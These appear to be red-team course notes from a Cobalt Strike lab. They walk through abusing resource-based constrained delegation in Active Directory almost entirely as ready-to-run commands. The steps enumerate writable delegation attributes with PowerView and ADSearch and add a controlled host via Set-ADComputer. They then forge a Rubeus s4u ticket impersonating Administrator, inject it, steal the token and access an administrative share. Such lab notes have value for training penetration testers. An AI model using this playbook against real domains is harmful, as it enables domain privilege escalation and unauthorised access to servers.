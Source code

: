 
> [!NOTE] **Note**
> This is much easier to do through a SOCKS proxy using PowerView
> 
> Setup found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F10.%20Pivoting%2F_%20Main)

Import PowerView
```powershell
ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Setup credentials to be used
```powershell
‌$Cred = Get-Credential CONTOSO\rsteel
```

Find principals that have WriteProperty privileges on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of computers.
```powershell
Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier

Get-DomainComputer -Credential $Cred | Get-DomainObjectAcl | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier
```

> OR
 
```powershell
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json

execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
```

 > OR

```powershell
ldapsearch "(&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes samAccountName,dnshostname,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

```

Resolve the SID to a domain group/user.
```powershell
Get-ADGroup -Filter 'objectsid -eq "SID"' -Server 'lon-dc-1' -Credential $Cred
```

Check for any existing RBCD configurations.
```powershell
Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

Add RBCD between _RBCD machine_ and _controlled host_, making sure not to overwrite the existing entry.
```powershell
$existing_entry = Get-ADComputer -Identity 'existing_RBCD_entry' -Server 'lon-dc-1' -Credential $Cred

$controlled_host = Get-ADComputer -Identity 'controlled_host' -Server 'lon-dc-1' -Credential $Cred

Set-ADComputer -Identity 'RBCD_Machine' -PrincipalsAllowedToDelegateToAccount $existing_entry,$controlled_host -Server 'lon-dc-1' -Credential $Cred
```

Verify that controlled host was added was added.
```powershell
Get-ADComputer -Identity 'RBCD_host' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

In the high-integrity Beacon, obtain a TGT for the controlled host.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
```

Request a usable service ticket for cifs/RBCD_host impersonating the default domain administrator.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-wkstn-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /nowrap /ticket:
```

Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist
ls \\lon-fs-1\c$

rev2self       <--- Drop impersonation
kill [PID]
```